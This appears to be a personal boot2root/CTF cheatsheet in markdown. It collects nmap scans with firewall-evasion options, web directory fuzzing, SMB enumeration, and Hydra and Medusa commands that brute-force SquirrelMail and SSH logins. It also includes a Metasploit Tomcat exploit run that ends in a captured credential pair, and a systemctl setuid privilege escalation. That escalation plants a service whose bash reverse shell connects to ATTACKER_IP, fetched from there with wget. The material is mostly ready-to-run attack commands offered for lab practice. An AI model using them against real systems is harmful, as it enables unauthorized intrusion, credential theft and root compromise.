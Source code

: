 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>

## Web Exploitation

<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>


## Privilege Escalation

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


## Shell
<details>
  <summary>
    
### Automated File Reading with find + while Loop

  </summary>

If cat is disabled but you have bash or sh, you can read all files recursively:

```bash
find / -type f -name "*.txt" -exec sh -c 'echo "File: {}"; while IFS= read -r line; do echo "$line"; done < {}' \; 2>/dev/null
```
This will list and print all .txt files on the system.

Modify -name "*.txt" to target other extensions (e.g., *.php, *.bak).
</details>


